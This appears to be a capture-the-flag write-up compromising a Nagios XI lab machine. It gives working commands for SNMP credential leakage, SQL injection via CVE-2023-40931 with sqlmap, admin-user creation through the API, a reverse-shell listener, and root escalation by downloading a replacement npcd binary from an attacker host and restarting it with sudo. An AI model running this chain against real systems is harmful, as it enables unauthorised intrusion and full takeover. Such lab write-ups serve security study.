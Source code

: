 ```yaml
---
title: "Nagios Exploit leads to PWN"
date: 2024-04-25
---
```



##  Initial Scans
Ip = `10.10.11.248`

### Ports and Services
#### Open Ports
```
Open 10.10.11.248:22
Open 10.10.11.248:80
Open 10.10.11.248:389
Open 10.10.11.248:443
Open 10.10.11.248:5667
```

#### Service Enumeration
```
80/tcp   open  http       syn-ack Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp  open  ldap       syn-ack OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth

```

#### Nuclei
Interesting finds
```shell
[open-redirect-generic] [http] [medium] http://nagios.monitored.htb/////evil.com [redirect="////evil.com"]
[CVE-2018-11784] [http] [medium] http://nagios.monitored.htb//interact.sh
```

Trying this?
https://github.com/ruthvikvegunta/nagiosxi_rce-to-root

Didn't work so lets try somehin else

First lets try another rustscan an


Snmpwalk
```
snmpwalk -v2c -c public nagios.monitored.htb
```
This gives me a lot of detail and is overloading. Lets use `grep`

```
snmpwalk -v2c -c public nagios.monitored.htb | grep Strings
```
##### Results
```
Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64"
iso.3.6.1.2.1.1.4.0 = STRING: "Me <root@monitored.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "monitored"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.3.11 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.2.2.1.2.1 = STRING: "lo"
iso.3.6.1.2.1.2.2.1.2.2 = STRING: "VMware VMXNET3 Ethernet Controller"

"postgres"

"mariadb"

"php"

"sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

"-c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB"

"-c /usr/bin/php -q /usr/local/nagiosxi/cron/cmdsubsys.php >> /usr/local/nagiosxi/var/cmdsubsys.log 2>&1"
```

When we try to login we get `The specified user account has been disabled or does not exist.`
# SQLMap

Let's enumerate!
```
sqlmap -u "https://nagios.monitored.htb/"
```

Oh `[CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1').` Right...

I googled for about an hour an really only found this to be useful [Nagios XI Vulnerability: CVE-2023–40931 — SQL Injection in Banner](https://medium.com/@n1ghtcr4wl3r/nagios-xi-vulnerability-cve-2023-40931-sql-injection-in-banner-ace8258c5567)
In this article we found that we could use the `POST /nagiosxi/admin/banner_message-ajaxhelper.php`
as our way to sqlmap nagios. We can now use the credentials we have found to get a token
```shell
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
```
Token: `4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b`

Now lets retry SQLMap

```shell
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=4af6ee9379971aa1cb7bbf0f5bbc931571ad6a4b" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users
```
From this we find a token and two password hashes.


Using the admin token we can create a new user with admin privileges
```shell
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=testuser&password=testuser&name=testuser&email=testuser@localhost&auth_level=admin"
```

It asks us to changes password, we do so. And we are in!

![[Pasted image 20240425172659.png]]

# Reverse Shell
using nagios admin priveleges we create a new service and add a custom command.

```
nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.248] 54244
bash: cannot set terminal process group (12715): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ ls
ls
cookie.txt
user.txt
nagios@monitored:~$ cat user.txt
cat user.txt
00e6ec0baf23d4e12f08b43309b8d692
nagios@monitored:~$ 
```

# Priv Esc

The classic `sudo -l`
```
sudo -l
```

We see some interesting stuff mainly 
```
/usr/local/nagiosxi/scripts/manage_services.sh
/usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php

```

```
cat /usr/local/nagiosxi/scripts/manage_services.sh
```

```
cd /usr/local/nagios/bin/

rm npcd
```


```
curl -O http://10.10.14.2:8000/npcd
```

```
chmod +x /usr/local/nagios/bin/npcd
```

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

```
fb032368ebeba0e8369df5131f2fbf74
```
